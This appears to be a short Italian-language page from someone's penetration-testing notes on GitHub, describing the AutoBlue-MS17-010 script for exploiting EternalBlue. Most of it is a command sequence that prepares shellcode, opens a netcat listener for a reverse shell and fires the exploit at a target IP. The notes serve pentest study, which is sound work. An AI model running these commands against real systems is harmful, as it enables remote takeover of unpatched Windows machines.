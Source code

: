 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# AutoBlue-MS17-010

**AutoBlue-MS17-010** è uno script Python, disponibile su <a href="https://github.com/3ndG4me/AutoBlue-MS17-010/tree/master">GutHub</a> che automatizza lo sfruttamento della vulnerabilità EternalBlue. <br>
È particolarmente utile in contesti dove non si usa Metasploit o si preferisce una procedura manuale e più trasparente.

```bash
cd AutoBlue-MS17-010/shellcode
chmod +x shell_prep.sh
./shell_prep.sh
nc -nvlp 4444
python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin
```

AutoBlue può essere utilizzato per generare shellcode, avviare listener e inviare l’exploit, e funziona efficacemente su macchine non patchate vulnerabili a MS17-010 con SMBv1 attivo.

---

